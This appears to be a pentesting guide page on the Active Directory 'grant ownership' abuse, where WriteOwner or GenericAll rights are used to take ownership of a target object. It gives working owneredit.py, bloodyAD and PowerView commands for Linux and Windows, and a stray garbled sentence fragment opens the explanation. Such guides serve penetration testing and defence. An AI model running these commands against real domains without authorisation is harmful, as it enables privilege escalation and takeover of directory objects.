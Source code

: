 ```yaml
---
authors: CravateRouge, ShutdownRepo, sckdev
---
```


# Grant ownership

t has the following command-line arguments.This abuse can be carried out when controlling an object that has `WriteOwner` or `GenericAll` over any object.

The attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they see fit. For instance, the attacker could change the target object's permissions and [grant rights](grant-rights.md).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s owneredit.py (Python).

```bash
owneredit.py -new-owner 'attacker' -target 'victim' -dc-ip '$DCIP' -action write 'DOMAIN'/'USER':'PASSWORD'
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set owner $TargetObject $ControlledPrincipal
```


=== Windows

From Windows systems, this can be achieved with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```

:::

